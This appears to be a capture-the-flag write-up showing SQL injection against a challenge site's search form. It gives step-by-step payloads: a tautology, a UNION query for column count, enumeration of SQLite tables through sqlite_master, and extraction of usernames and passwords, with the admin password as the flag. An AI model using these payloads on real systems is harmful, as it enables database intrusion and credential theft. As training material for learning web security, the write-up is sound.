




## Recon

First I try injecting at the **login** form, but it doesn't work. Then I move to the **Search** function:
```
a' or 1 = 1-- -
```


It returns all the posts.This mean that this function is vulnerable to SQLi

Next we try to get the number of columns with UNION
```
recherche=a'union select 1,2-- - 
```


1 result(s) for "a'union select 1,2-- -" -> 2 columns

Querying `sqlite_master` works, which confirms the database is **SQLite**. I use it to get the table names:
```
a'union select 1,name from sqlite_master-- -
``` 


We got table: users

Next we try to get username, password from users
```
a'union select username,password from users-- -
```


Flag is admin password